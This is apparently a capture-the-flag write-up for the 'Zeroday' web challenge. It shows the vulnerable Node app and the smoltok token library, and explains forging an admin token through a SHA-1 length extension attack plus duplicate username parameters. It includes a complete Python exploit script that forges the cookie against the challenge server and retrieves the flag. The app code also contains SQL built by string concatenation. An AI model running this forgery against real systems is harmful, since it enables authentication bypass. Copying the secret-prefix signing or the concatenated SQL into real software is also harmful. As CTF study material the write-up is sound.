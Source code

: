 # 🪲 Zeroday (Score: 380 / Solves: 12)

## Description

> Found too many zerodays to keep count of them? Zeroday is your new bugtracker.
> Beta version access available only for our partners. Stay tuned for open access.
>
> <https://zeroday-3e5a363a1e8f.1753ctf.com/>
>
> <https://dl.1753ctf.com/zeroday/src/app.js?s=PPvbYztO>

## Source Code

<details><summary>zeroday_src_app.js</summary>

```js
const express = require('express');
const bodyParser = require('body-parser');
const cookieParser = require('cookie-parser');
const initSQL = require('sql.js');
const smoltok = require('smoltok');
const crypto = require('crypto');

const app = express();
app.set('view engine', 'ejs');

const port = 1337;

const secret = crypto.randomBytes(64).toString("hex");

let db;

initSQL().then(async sql => {
    db = new sql.Database();

    db.exec("CREATE TABLE users (id INTEGER PRIMARY KEY, username TEXT NOT NULL, password TEXT NOT NULL)");
    db.exec("CREATE TABLE bugs (id INTEGER PRIMARY KEY, user_id INTEGER, title TEXT NOT NULL, FOREIGN KEY(user_id) REFERENCES users(id))");
    db.exec("INSERT INTO users (id, username, password) VALUES (1, 'adam', 'pwd')");
    db.exec("INSERT INTO users (id, username, password) VALUES (2, 'admin', '" + crypto.randomBytes(40).toString("hex") + "')")
    db.exec("INSERT INTO bugs (id, user_id, title) VALUES (1, 1, 'Donut dispenser is getting stuck twice a day')");
    db.exec("INSERT INTO bugs (id, user_id, title) VALUES (2, 1, 'Coffee machine brews tea')")
    db.exec("INSERT INTO bugs (id, user_id, title) VALUES (3, 2, '" + (process.env.flag || "1753c{fake_flag}") + "')")
});

app.use(bodyParser.urlencoded({ extended: false }));
app.use(cookieParser());
app.use(express.static("public"));

app.get('/login', (req, res) => {
    res.render("login");
})

app.post('/login', (req, res) => {
    const stmt = db.prepare("SELECT * FROM users WHERE username=:username AND password=:password");
    stmt.bind({ ':username': req.body["username"], ':password': req.body["password"] });

    if (!stmt.step()) {
        res.render("login", { error: "Incorrect login" });
    }
    else {
        const token = smoltok.encode({ "username": req.body["username"] }, secret);
        res.cookie("token", token);
        res.redirect("/");
    }

    stmt.free();
})

app.use((req, res, next) => {
    try {
        const token = req.cookies.token;
        req.user = smoltok.decode(token, secret);
        next();
    }
    catch (err) {
        res.redirect("/login")
    }

})

app.get('/', (req, res) => {
    const results = db.exec("SELECT b.title FROM bugs b JOIN users u ON b.user_id = u.id WHERE u.username like '" + req.user.username + "'")
    res.render("bugs", { results: results && results.length > 0 ? results[0].values : [], user: req.user })
})

app.listen(port, () => {
    console.log(`Example app listening on port ${port}`);
})
```

</details>

## Flag

1753c{well_youve_just_found_a_zero_day_on_npm}

## Summary

- Length extension attack
- Become admin using a technique similar to HTTP Parameter Pollution with `URLSearchParams` and `Object.fromEntries` (No SQLi)

## Initial Analysis

```js
// zeroday_src_app.js
initSQL().then(async sql => {
    db = new sql.Database();

    db.exec("CREATE TABLE users (id INTEGER PRIMARY KEY, username TEXT NOT NULL, password TEXT NOT NULL)");
    db.exec("CREATE TABLE bugs (id INTEGER PRIMARY KEY, user_id INTEGER, title TEXT NOT NULL, FOREIGN KEY(user_id) REFERENCES users(id))");
    db.exec("INSERT INTO users (id, username, password) VALUES (1, 'adam', 'pwd')");
    db.exec("INSERT INTO users (id, username, password) VALUES (2, 'admin', '" + crypto.randomBytes(40).toString("hex") + "')")
    db.exec("INSERT INTO bugs (id, user_id, title) VALUES (1, 1, 'Donut dispenser is getting stuck twice a day')");
    db.exec("INSERT INTO bugs (id, user_id, title) VALUES (2, 1, 'Coffee machine brews tea')")
    db.exec("INSERT INTO bugs (id, user_id, title) VALUES (3, 2, '" + (process.env.flag || "1753c{fake_flag}") + "')")
});
```

The flag is in the bugs table.

```js
// zeroday_src_app.js
app.use((req, res, next) => {
    try {
        const token = req.cookies.token;
        req.user = smoltok.decode(token, secret);
        next();
    }
    catch (err) {
        res.redirect("/login")
    }

})
```

The user is identified by a token stored in the cookie.

```js
// zeroday_src_app.js
app.get('/', (req, res) => {
    const results = db.exec("SELECT b.title FROM bugs b JOIN users u ON b.user_id = u.id WHERE u.username like '" + req.user.username + "'")
    res.render("bugs", { results: results && results.length > 0 ? results[0].values : [], user: req.user })
})
```

To get the flag, we need to create a token as an admin, save it to the cookie, and then access `/`.

```js
// zeroday_src_app.js
app.post('/login', (req, res) => {
    const stmt = db.prepare("SELECT * FROM users WHERE username=:username AND password=:password");
    stmt.bind({ ':username': req.body["username"], ':password': req.body["password"] });

    if (!stmt.step()) {
        res.render("login", { error: "Incorrect login" });
    }
    else {
        const token = smoltok.encode({ "username": req.body["username"] }, secret);
        res.cookie("token", token);
        res.redirect("/");
    }

    stmt.free();
})
```

The token is created using the NPM package called smoltok.

- [smoltok - npm](https://www.npmjs.com/package/smoltok?activeTab=code)

```js
// smoltok/index.js
const crypto = require("crypto");

const padBase64 = (base64String) => {
    const padLength = (4 - (base64String.length % 4)) % 4;
    return base64String + '='.repeat(padLength);
};

module.exports = {
    "encode": function (input, secret) {
        const data = new URLSearchParams(input).toString();
        const signature = crypto.createHash("sha1").update(Buffer.concat([Buffer.from(secret), Buffer.from(data)])).digest("base64");
        return Buffer.from(data).toString('base64').split('=').join('') + "." + signature.split('=').join('');
    },
    "decode": function (token, secret) {
        let [b64data, tokenSignature] = token.split(".").map(padBase64);
        const data = Buffer.from(b64data, 'base64');
        const signature = crypto.createHash("sha1").update(Buffer.concat([Buffer.from(secret), data])).digest("base64");
        if (tokenSignature != signature)
            throw new Error("Invalid signature");
        const entries = new URLSearchParams(data.toString('utf-8').replace(/[^ -~]/g, ''));
        return Object.fromEntries(entries)
    }
}
```

The token consists of `b64(data).rstrip("=") + . + signature.rstrip("=")`.
The signature is generated as `b64(sha1(secret+data))`.

```js
// zeroday_src_app.js
const secret = crypto.randomBytes(64).toString("hex");
```

Node.js Console:

```js
> crypto.randomBytes(64).toString("hex").length;
128
```

The length of secret is 128.

Also, regarding `smoltok.decode()`, when there are two same parameters in `URLSearchParams`, `Object.fromEntries` returns the latter parameter.

```js
> entries = new URLSearchParams("username=adamaaaaa&username=admin".toString('utf-8').replace(/[^ -~]/g, ''));
URLSearchParams { 'username' => 'adamaaaaa', 'username' => 'admin' }
> Object.fromEntries(entries)
{ username: 'admin' }
```

Thus, if we can generate the signature for the data `username=adam...&username=admin` using a length extension attack, we can get the flag.

## Solution

Requirements:

- [iagox86/hash_extender](https://github.com/iagox86/hash_extender) should be installed in `~/tools/hash_extender/hash_extender`

exploit.py

```python
import re
import requests
from base64 import b64decode, b64encode
import subprocess
from urllib.parse import unquote

requests.packages.urllib3.disable_warnings()

s = requests.Session()
s.verify = False
# s.proxies = {"https": "http://127.0.0.1:8080"}

base_url = "https://zeroday-3e5a363a1e8f.1753ctf.com"


def padBase64(base64String):
    padLength = (4 - (len(base64String) % 4)) % 4
    return base64String + "=" * padLength


def length_extension_attack(token):
    data, signature = map(lambda x: b64decode(padBase64(unquote(x))), token.split("."))

    result = subprocess.run(
        f"~/tools/hash_extender/hash_extender --signature {signature.hex()} -l 128 --data {data.decode()} --append '&username=admin' --format sha1 --table",
        shell=True,
        capture_output=True,
        check=True,
    )

    signature, data = map(
        lambda x: b64encode(bytes.fromhex(x)).decode().rstrip("="),
        result.stdout.decode().split()[1:],
    )

    return f"{data}.{signature}"


def main():
    s.post(
        f"{base_url}/login",
        data={"username": "adam", "password": "pwd"},
        allow_redirects=False,
    )

    new_token = length_extension_attack(s.cookies.get("token"))

    s.cookies.clear()
    s.cookies["token"] = new_token

    resp = s.get(base_url)

    if m := re.findall(r"1753c{.*}", resp.text):
        print(m[0])


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 exploit.py
1753c{well_youve_just_found_a_zero_day_on_npm}
```
